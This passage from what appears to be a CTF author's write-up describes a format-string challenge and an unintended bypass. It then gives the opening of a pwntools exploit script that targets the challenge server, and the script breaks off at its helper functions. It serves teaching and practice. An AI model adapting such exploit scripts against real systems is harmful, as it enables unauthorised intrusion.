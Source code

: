 We create a random 2 byte vulnerable contraint.

Finally the mmaped region is mprotected to be `read-only`. 

Later on , the age is verified with the 2 byte contraint which has to be satisfied by the format string vulnerability.


### An Unintended Flaw

The only thing I forgot to do was add a check to age (< 0x900) , so that only format string can be used to bypass the check to enter the secret service. 

But since I didn't add a check,  the format string is rendered **useless** as participants can directly calculate the age from the library using **ctypes** or plain python and give that as age :(.
{: .notice}

But now I'd like to discuss how you could do it the intended way using format string.

Well , I've included the fixed binary in the handout folder and now u can try the challenges without any unintended flaws :).

### The Intended Way To Get Into The Secret Service

Here's the exploit snippet which mimics the 2 byte contraint.

```python
from pwn import *
import ctypes
from ctypes import *
from time import sleep
import sys

context.arch="amd64"
HOST = '35.245.143.0'
PORT = 7777
LIBC = ELF("./libc.so.6",checksec = False)
libc = ctypes.cdll.LoadLibrary("./libc.so.6")
context.noptrace=True
if(len(sys.argv)>1):
    io=remote(HOST,PORT)
else:
    io=process('./chall')

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


#Defining functions for various heap operations

def add(idx,size,data):
    sla(">> ",'1')
    sla("Index : ",str(idx))
    sla("size : ",str(size))
    sa("details -> \n",data)

def view(idx):
    sla(">> ",'2')
    sla("Candidate: ",str(idx))

def hack(idx):
    sla(">> ",'2020')
```
